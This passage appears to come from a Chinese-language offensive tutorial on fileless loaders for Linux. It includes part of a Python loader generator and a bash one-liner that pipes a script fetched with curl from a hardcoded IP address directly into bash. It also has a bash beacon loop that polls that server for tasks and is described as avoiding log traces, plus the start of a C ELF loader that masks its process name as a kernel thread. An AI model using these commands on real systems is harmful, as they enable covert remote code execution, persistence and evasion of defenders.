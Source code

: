 ```python
    '''
    with open('core.rb', 'w') as f:
        f.writelines(src1_code)
        f.writelines(src2_code)
    
def main():
    parser = optparse.OptionParser('python3 create_core.py -f /usr/bin/ping' )
    parser.add_option('-f', '--file', dest = 'filename', type = 'string', help = 'set the file to be loaded.')
    (options,args) = parser.parse_args()
    filename=options.filename
    data = read_file(filename)
    create_loader(data)

if __name__ == '__main__':
    main()
```



## 5 Bash*

### 无文件加载器

```shell
curl -k -s https://213.12.122.13:46379/VsanWF70jtXvThCq5IrcfwiySARmoz/bash/do.sh|bash
```

### 服务器端部署

由于Bash不是一门完整的编程语言，没提供调用底层libc函数的方法，因此无法实现内存加载elf。但可以用它实现命令执行类的无文件攻击。

下面的脚本中，Bash定时向服务器获取任务执行。这种方式避免了传统定时任务在日志中留下痕迹的问题。缺点是重启失效。

```shell
#!/bin/bash
### >>>>> TASK_START
whoami > ./itworks
`cat ./task.sh`
### <<<<< TASK_END
sleep 10
curl -k -s https://213.12.122.13:46379/VsanWF70jtXvThCq5IrcfwiySARmoz/bash/do.sh|setsid bash &
```



## 6 C语言版

LoLBins in Linux Based C.

### 6.1 ELF加载器（共享内存）

```c
//gcc 1.c -lrt
//https://www.cnblogs.com/qiyeboy/p/12547204.html
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>

static char *args[] = {
    "[ipv6_addrconf]",
	"192.168.44.1",
	NULL
```
